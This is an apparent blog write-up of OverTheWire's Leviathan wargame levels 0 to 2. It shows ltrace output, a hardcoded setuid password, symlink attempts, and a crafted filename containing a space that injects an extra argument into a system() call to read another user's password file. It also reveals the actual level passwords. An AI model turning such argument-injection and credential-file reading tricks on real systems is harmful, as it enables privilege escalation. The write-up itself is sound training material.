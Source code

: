 ```yaml
---
layout: post
title: Leviathan 1-8 Writeup
date: 2019-03-30
author: th3-3inst3in
categories: overthewire
tags: [web,overthewire]
---
```



## About Leviathan

You do not need any programming knowledge or any sort of hacking knowledge. All you need to know is basic linux/unix CLI knowledge .
    
### Leviathan0

Login to the server with the following ssh creds

` Host: leviathan.labs.overthewire.org Port: 2223 `
* username: leviathan0
* password: leviathan0

You'll land in the home directory of user levathan0 quick _la -la_ you'll see a **.backup** folder cd in to it and you'll notice a file named _bookmarks.html_ cat that and grep for passowrd and you'll find the password for the next level.

![lev1](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/lev1.png))

|:-------------|:------------------|:------|

### Leviathan1

Using the same host + port  and password gotten from the last level login as user leviathan1.

Do a quick _ls -la_ and you see there is a binary named `check`

* -r-sr-x---  1 leviathan2 leviathan1 7452 Oct 29 21:17 check

```bash
leviathan1@leviathan:~$ ./check
password: testpass
Wrong password, Good Bye ...

leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x804853b, 1, 0xffffd794, 0x8048610 <unfinished ...>
printf("password: ")                                                         = 10
getchar(1, 0, 0x65766f6c, 0x646f6700password: wrongpass
)                                        = 119
getchar(1, 0, 0x65766f6c, 0x646f6700)                                        = 114
getchar(1, 0, 0x65766f6c, 0x646f6700)                                        = 111
strcmp("wro", "sex")                                                         = 1
puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
)                                         = 29
+++ exited (status 0) +++
leviathan1@leviathan:~$

```

So looks like our password is >**sex** 

#### About ltrace

`ltrace` s a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.

using the password we get a


```bash
leviathan1@leviathan:~$ ./check
password: sex
$ whoami
leviathan2

$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta

```


|:-------------|:------------------|:------|


### Leviathan2

Using the same host + port  and password gotten from the last level login as user leviathan2.

```bash
leviathan2@leviathan:~$ ls
printfile
leviathan2@leviathan:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename


leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...

```

Seems like there we can't read the leviathan3 file lets try creating a symlink to some directory that I( the user ) owns

```bash
leviathan2@leviathan:~$ mkdir /tmp/mytempdir
leviathan2@leviathan:~$ cd /tmp/mytempdir
leviathan2@leviathan:/tmp/mytempdir$ ln -s /etc/leviathan_pass/leviathan3
leviathan2@leviathan:/tmp/mytempdir$ ls
leviathan3

leviathan2@leviathan:/tmp/mytempdir$ /home/leviathan2/printfile leviathan3
You cant have that file...

leviathan2@leviathan:/tmp/mytempdir$ ltrace /home/leviathan2/printfile leviathan3
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("leviathan3", 4)                                                = -1
puts("You cant have that file..."You cant have that file...
)                                     = 27
+++ exited (status 1) +++
leviathan2@leviathan:/tmp/mytempdir$ echo "test" > file.txt
leviathan2@leviathan:/tmp/mytempdir$ ltrace /home/leviathan2/printfile file.txt
__libc_start_main(0x804852b, 2, 0xffffd754, 0x8048610 <unfinished ...>
access("file.txt", 4)                                                  = 0
snprintf("/bin/cat file.txt", 511, "/bin/cat %s", "file.txt")          = 17
geteuid()                                                              = 12002
geteuid()                                                              = 12002
setreuid(12002, 12002)                                                 = 0
system("/bin/cat file.txt"test
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                 = 0
+++ exited (status 0) +++

```

The sym link didnt help so what I did was used ltrace to find out what is actully happening in the background
It turns out that `access()` function is actually used to check and verify the user id. and then 
`snprintf()` is used to create a string which is then passed to `system()` to be executed as a system command & we can also see that cat is being used to read the file.

Searching for vulnerabilites in `access()` function I stumbled upon [this](https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole)

```bash
leviathan2@leviathan:/tmp/mytempdir$ ls
file  leviathan3
leviathan2@leviathan:/tmp/mytempdir$ touch "leviathan3 file"
leviathan2@leviathan:/tmp/mytempdir$ /home/leviathan2/printfile leviathan3\ file
Ahdiemoo1j
test
leviathan2@leviathan:/tmp/mytempdir$

```
Lets move on to the nex tone.


|:-------------|:------------------|:------|

## Leviathan3
